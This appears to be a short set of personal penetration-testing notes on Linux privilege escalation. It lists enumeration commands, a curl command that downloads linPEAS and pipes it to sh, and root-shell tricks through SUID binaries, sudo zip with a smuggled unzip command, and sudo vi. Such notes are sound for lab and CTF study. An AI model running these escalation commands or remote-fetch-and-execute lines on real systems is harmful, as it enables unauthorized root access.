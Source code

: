```yaml
---
icon: linux
---
```


# Linux

* `sudo -l` to see what sudo can do
* [gtfobins.github.io](https://gtfobins.github.io/)
* linPEAS

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

* get suid binaries:&#x20;

```sh
find / -perm -u=s -type f 2>/dev/null
```

* launching shell from suid binary, use `exec /bin/sh -p` to keep effective uid from being reset
  * in the case of one machine, there was a binary `.suid_bash`, the command `./.suid_bash -p` gave a root shell
* weird zip command if for some reason you have sudo zip privs: `sudo zip test.zip test.txt -T --unzip-command="sh -c /bin/bash"` -T tests the integrity of the zip, then --unzip-command specifies the command to unzip the file, so it uses that in the integrity check
* check sudo environment variables
* from sudo vi - `:!sh` to launch shell
* check ports for nfs `rpcinfo -p`
* checking strings in files
  * `strings [file]`
    * try `-e l` also
